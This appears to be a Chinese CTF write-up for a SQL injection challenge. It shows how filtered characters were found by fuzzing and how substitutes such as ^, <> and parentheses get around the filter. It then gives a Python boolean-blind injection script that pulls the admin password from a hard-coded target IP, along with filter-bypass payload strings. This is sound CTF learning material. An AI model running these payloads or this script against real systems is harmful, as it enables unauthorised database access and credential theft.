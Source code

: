 使用bp构建sql注入字典，爆破得到过滤字符
![](图片/Pasted%20image%2020241128185550.png)
可以使用^ <>等代替=
()代替空格
构建payload
`a'or(1<>2)#`
因为是bool注入，构建payload脚本
```python
#布尔盲注不仅仅是在密码正确和密码错误两种情况下，比如你输入账户，可能出现“账户不存在”和“存在”两种情况，这也是布尔。
import requests
import string,hashlib
url = 'http://114.67.175.224:19114/'
sss = string.digits + (string.ascii_lowercase)
a = ''
for i in range(1, 50):
    flag = 0
    for j in sss:
        payload = "admin'^((ascii(mid((select(password)from(admin))from(%s))))<>%s)^1#" % (i, ord(j))
        #屏蔽了","，改用mid()函数，from表示起始位置
        #ascii()当传入一个字符串时取出第一个字母的ascii()，相当于mid()的第二参数，for取出，也相当于limit
        #<>表示不等号
        #^表示异或
        payload2= "admin123'or((ascii(mid((select(password)from(admin))from(%s))))<>%s)#"%(i,ord(j))
        #由于没有屏蔽or，所以也可以用这个，可以形成一组布尔
        payload3= "admin123'or((ascii(mid((select(database()))from(%s))))<>%s)#"%(i,ord(j))
        data = {'username': payload, 'password': 'admin'}
        res = requests.post(url, data=data).text
        if 'username does not exist!' in res:
            a += j
            flag = 1
            print(a)
            break
    if flag == 0:
        break
print(a)
```